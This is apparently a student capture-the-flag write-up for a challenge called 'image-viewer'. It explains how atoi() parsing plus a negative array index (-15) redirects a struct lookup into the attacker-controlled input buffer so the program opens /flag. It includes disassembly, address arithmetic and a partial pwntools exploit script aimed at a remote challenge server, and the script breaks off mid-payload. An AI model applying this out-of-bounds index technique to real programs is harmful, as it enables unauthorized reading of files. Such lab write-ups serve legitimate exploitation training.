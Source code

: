 ```
p.recvlines(6)
p.sendline(b'd')

p.interactive()
```

image-viewer
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
The hardest part about this challenge was working out what could be exploited. I instantly identified atoi() as the vulnerability, but I couldn't work out how to abuse it. From what I saw online it was commonly used for integer overflow/underflow exploits but that didn't apply here. I also knew that if a text string was passed into atoi(), it would return 0 but again that wasn't of much use to me. After leaving it for a couple of days when I came back I tried entering a number followed by text and surprisingly it converted the number and just ignored the rest. After this it was clear that I could abuse the images indexing to access memory in the input buffer that I am in control of.

Script/Command used (Writeup)
------------------
We'll make a payload that starts with an index number and then text and then the rest of the payload. That way `atoi` just parses the initial index number but we can keep a whole payload for later use. Let's first look how the array of structs are handled in the binary:
```
call    read_input
sub     esp, 0xc
push    buf  {"empty"}
call    atoi
add     esp, 0x10
mov     edx, dword [eax*8+0x804c0e4]
mov     eax, dword [eax*8+0x804c0e0]
```
The result of `atoi` (which is the index i) is multiplied by 8 (size of each struct) and added to the base of the array 0x804c0e0 to get images[i].id. Since the filename is offset 4 bytes from the id, the base for filename is treated as 0x804c0e4 (&images[0].filename). In the binary we see that the input buffer (size 128 bytes) starts at address 0x0804x060, so we need to pick some index that gets use near there. -15 x 8 + 0x0804x0e0 is 0x0804c068. So we'll use -15 as our index.

Our payload will start with 8 bytes "-15xxxxx" where `atoi` stops after -15 and then we pad until we reach 0x0804c068. Then we need to put the same id here, so we'll add the 4 bytes "-15x". Now we need to add images[-15].filename in the next 4 bytes which should be a pointer to the filename string. Bearing in mind we are now at address 0x0804c06c, we can make our 4 byte pointer 0x0804c070 and then right after this write our string.

We know we want to open "flat earth truth" but to ensure the `strcmp` fails we'll use the filename "./flat earth truth". After this we see we actually need to open /flag so we do that instead.

Exploit:
```
from pwn import *

p = remote('plsdonthaq.me', 5003)
#p = process('./image-viewer')

p.sendlineafter("> ", "trivial")
#&(images[i].id) = i*8 + 0x0804c0e0 (base of images array)
#&(images[i].filename) = i*8 + 0x0804c0e0 + 0x4 (offset 4 from base of struct)
#buf is across 0x0804c060 to 0x0804c0e0
#index -15 is at address 0x0804c068
#so we want to specify id -15x (-15 terminated) and then pad 4 bytes
payload = b'-15x'
payload += b'xxxx'
#then we add the id again which gets read in by images[-15].id
payload += p32(-15, sign=True)
```